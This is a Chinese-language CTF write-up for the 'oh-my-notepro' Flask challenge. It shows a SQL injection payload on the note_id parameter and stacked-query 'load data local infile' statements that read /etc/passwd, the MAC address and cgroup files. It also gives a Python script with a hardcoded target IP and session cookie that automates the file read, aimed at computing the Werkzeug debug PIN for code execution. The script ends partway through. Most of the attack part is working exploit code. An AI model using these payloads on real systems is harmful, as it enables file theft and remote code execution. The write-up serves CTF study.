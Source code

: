 oh-my-notepro
=============

登录没有做限制，仅与登录的用户名有关

登陆后创建文件，并进行访问`view?note_id=XXXX`，此时修改`note_id`的值会发生报错，并且进入到`flask`的`Debug`中

![image-20220417174814841](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a9f8972090cbc2ff7d01684fa556fabd13b05eb3.png)

从`Debug`反馈的报错中可知这里存在执行了SQL语句，测试后发现存在SQL注入

```text
Payload
/view?note_id=-1'union select 1,2,3,4,5--+
```

这里`flask`是开启了`Debug`，存在计算PIN码导致任意代码执行的漏洞。因为存在SQL联合查询，一开始想直接通过`load_file()`函数直接读取文件，但发现不行，查看了`@@secure_file_priv`发现设置了目录

这里可以使用`load data local infile`进行文件读取，它是不受`@@secure_file_priv`，但是它有个条件是需要堆叠注入才行(不过这里是存在堆叠的)

```sql
CREATE TABLE Dontt(fake VARCHAR(1000));load data local infile "/etc/passwd" into table Dontt FIELDS TERMINATED BY '\n';
```

新建一张表，然后将文件的内容导入表中，最后使用联合查询查看表中内容即可

接着读取文件计算PIN码，不过这里PIN码的计算是有区分的，`Python3.8`之前是使用`MD5`进行加密，之后是使用`sha1`进行加密

```text
需要读取的文件
计算机当前用户: /etc/passwd
Flask: /app/app.py
当前网络的mac地址的十进制: /sys/class/net/eth0/address
机器的ID: /proc/self/cgroup
machine-id: /etc/machine-id
```

不过靶机每次重启只会更新`/proc/self/cgroup`和`/sys/class/net/eth0/address`，所以编写脚本来快速获取PIN码

```python
import hashlib
from itertools import chain
import requests
import re

burp0_url = "http://121.37.153.47:5002/view?note_id=5kd3y85k2v7kzse27fn46p723i7t4jxp%27;CREATE%20TABLE%20Dontt(fake%20VARCHAR(1000));load%20data%20local%20infile%20%22/sys/class/net/eth0/address%22%20into%20table%20Dontt%20FIELDS%20TERMINATED%20BY%20%27\\n%27;load%20data%20local%20infile%20%22/proc/self/cgroup%22%20into%20table%20Dontt%20FIELDS%20TERMINATED%20BY%20%27\\n%27;--+"
burp0_cookies = {"session": "eyJjc3JmX3Rva2VuIjoiZDY4N2FhZjBjMGJhYWZiZjVkOTY0ZGZiMjFiYTdmOTVmYmIyMGY0MSIsInVzZXJuYW1lIjoiYSJ9.YlqpVA.Fl8s8nedhPqsVRujiNg7h8ZgZp8"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Referer": "http://121.37.153.47:5002/index", "Upgrade-Insecure-Requests": "1"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

burp1_url = "http://121.37.153.47:5002/view?note_id=5p%27union%20select%201,2,3,group_concat(fake),5%20from%20Dontt--+"

res = requests.get(burp1_url, headers=burp0_headers, cookies=burp0_cookies).text
#print(res)
x = re.findall("(.{17}),12:devices:/docker/(\w{64})",res)

mac = x[0][0]
ip = x[0][1]

```